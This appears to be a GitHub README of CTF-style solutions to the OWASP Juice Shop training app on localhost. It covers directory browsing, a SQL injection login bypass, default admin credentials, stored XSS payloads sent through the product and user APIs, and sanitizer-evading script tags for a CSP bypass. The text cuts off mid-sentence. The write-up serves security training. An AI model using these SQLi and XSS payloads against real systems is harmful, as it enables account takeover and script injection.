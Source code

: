 # OWASP-juice-shop-solutions
This repo holds my solutions for the OWASP Juice Shop challenges
## 1. Confidential Document
Navigate to the "About Us" page. There is a link in the middle of the paragraph that is highlighted green. Click that link and you will be redirected to `localhost:3000/ftp/legal.md`. We want to access the content in this file's parent directory. This can be easily accomplished by changing the URL to `localhost:3000/ftp`. Open the `acquisitions.md` file to complete the challenge.
## 2. Exposed Metrics
The linked documentation for prometheus mentions a directory called `/metrics` as the standard endpoint. Simply naviagte to `localhost:3000/metrics` to reveal metric information and complete the challenge.
## 3. Missing Encoding
Inspect the broken image. Find the src link: 
```
http://localhost:3000/assets/public/images/uploads/😼-#zatschi-#whoneedsfourlegs-1572600969477.jpg
```
Visit this link in your browser. Then, check the Network tab. It will show that the actual visited link reads: 
```
http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-
``` 
which is everything up until the first `#` symbol. The website can render unencoded pound signs, but your browser cannot. Encode each `#` as `%23` to get the solution URL: 
```
http://localhost:3000/assets/public/images/uploads/😼-%23zatschi-%23whoneedsfourlegs-1572600969477.jpg
```
## 4. Web3 Sandbox
Search for `sandbox` in main.js to reveal the path:
```
localhost:3000/#/web3-sandbox
```
Navigating to this URL solves the challenge.
## 5. Login Admin
For this challenge, a SQL injection attack must be used to login without the right credentials. A common approach for these problems is to enter quotes `'` to manipulate the sql query string. Enter `'` as the username and any value as the password and then click login. Inspect the Network tab to see how the client interpreted this login. You should see a line in the response like this:
```
"sql": "SELECT * FROM Users WHERE email = ''' AND password = '098f6bc*****************' AND deletedAt IS NULL"
```
This produces a sqlite compile error because there is an unexpected quote within the query. In order to login, we need the query to return at least one record. This can be accomplished by adding a clause that always evaluates to true, like: `email = '' OR TRUE`. This is close to the final solution but there is still an error with the quote formatting:
```
"sql": "SELECT * FROM Users WHERE email = '' OR TRUE' AND password = '098f6bc*****************' AND deletedAt IS NULL"
```

 this is resolved by commenting out the rest of the internal code by inputting an email as:
```
' OR TRUE--
```
Now the full query reads as:
```
"sql": "SELECT * FROM Users WHERE email = '' OR TRUE--' AND password = '098f6bc*****************' AND deletedAt IS NULL"
```
which is effectively:
```
"sql": "SELECT * FROM Users WHERE email = '' OR TRUE"
```
Since this query always return TRUE, the database will return every record. Since the application expects only one user to be returned, it will automatically take the first record from the result set. In this case it will be the admin login. The first user is often the admin because user IDs are usually incremented from 1 and admin accounts are often created first in a database.
## 6. Admin Section
Navigate to this URL:
```
http://localhost:3000/#/administration
```
## 7. Password Strength
email: `admin@juice-sh.op`
password: `admin123`

## 8. View Basket
Change the `bid` to 1 in developer tools -> Session settings. Navigate away from basket and then back to basket.
## 9. Empty User Registration
To solve this challenge you have to modify the client-side javascript. Inspect the "Register" button on the registration page. Find this element in the code:
```
<button _ngcontent-jwc-c32="" type="submit" id="registerButton" mat-raised-button="" color="primary" aria-label="Button to complete the registration" class="mat-focus-indicator mat-raised-button mat-button-base mat-primary mat-button-disabled" disabled="true"><span class="mat-button-wrapper"><i _ngcontent-jwc-c32="" class="material-icons"> person_add </i> Register </span><span matripple="" class="mat-ripple mat-button-ripple"></span><span class="mat-button-focus-overlay"></span></button>
```
Delete the portion that says `disabled="true"` then click "Register" on the UI.
## 10. Five-Star Feedback
This solution requires that you have completed number 6. Login Admin and number 7. Admin Section. Login as the admin and navigate to the admin section (`http://localhost:3000/#/administration`). Click the trash can icon next to the one five-star review.
## 11. API Only XSS
To find potential vulnerabilities for an API XSS attack, you can search `main.js` for vulnerable functions like `bypassSecurityTrustHtml`. There are a few places in the code where this function is found. One of those places is in the Product Description:
```
trustProductDescription(e) {
 for (let o = 0; o < e.length; o++)
 e[o].description = this.sanitizer.bypassSecurityTrustHtml(e[o].description)
}
```
This tells us that we should try to replace a product description with the XSS attack payload. Then, when a user opens the product information on the UI, they will get an XSS notification.
 Determining the exact format of the payload takes some tinkering around with postman and the API. Ultimately, you will need to identify the link for a specific product, for example, the link to the Banana Juice is:
```
http://localhost:3000/api/Products/6
```
Use a `PUT` request to update the description in the format: 
```
{"description":"<iframe src=\"javascript:alert(`xss`)\">"}
```
Note that the inner quotes are escaped. After sending the request, refresh the website and the challenge will be solved. Click on the Banana Juice product to see the attack in action.
## 12. Client-side XSS Protection
Similar to the last challenge, this attack involves finding vulnerabilities for an API XSS attack. In the last problem, we found that the API uses `bypassSecurityTrustHtml` for the product description. Upon further investigation, this function is also seen for handling users emails:
```
findAllUsers() {
   this.userService.find().subscribe(e => {
       this.userDataSource = e,
       this.userDataSourceHidden = e;
       for (const o of this.userDataSource)
           o.email = this.sanitizer.bypassSecurityTrustHtml(`<span class="${this.doesUserHaveAnActiveSession(o) ? "confirmation" : "error"}">${o.email}</span>`);
       this.userDataSource = new d.by(this.userDataSource),
       this.userDataSource.paginator = this.paginatorUsers,
       this.resultsLengthUser = e.length
   }
   , e => {
       this.error = e,
       console.log(this.error)
   }
   )
}
```
Create a new account with the malicious payload as the user's email. The application sanitizes emails in the client-side but not in the backend. Therefore, the client-side XSS protection can by by-passed by submitting a POST request to http://localhost:3000/api/Users of the form:
```
{"email": "<iframe src=\"javascript:alert(`xss`)\">", "password":""}
```
Note that the inside quotes are escaped.
## 13. CSP Bypass
This challenge can be split into two main parts: loading the malicious payload into the DOM (Document Object Model) and bypassing the CSP to allow the payload to be executed. Login as any user and navigate to the user profile page. Try loading the malicious payload into the username field. Observe that the `<script>` command is removed, followed by one letter, leaving only `lert(`xss`)</script>`. This tells us that the sanitizer can identify and remove exact html tags. However, a cleverly crafted entry can bypass this naive policy. There are a few ways to do this, here are two of them:
```
`<<script>ascript>alert(`xss`)</script>
<<a|ascript>alert(`xss`)</script>
```
In each case, the sanitizer removes what it _thinks_ to be the html tag, followed by the next character after it. In the first example that would be `<script>a` and in the second example it is `<a|a`. 
Next, we need to bypass the CSP (change it to allow inline Javascript) so the payload can be executed. Open the Network tab of the developer settings. Set your profile picture using a valid image URL and then inspect the network activity. You should see in the `profile` 
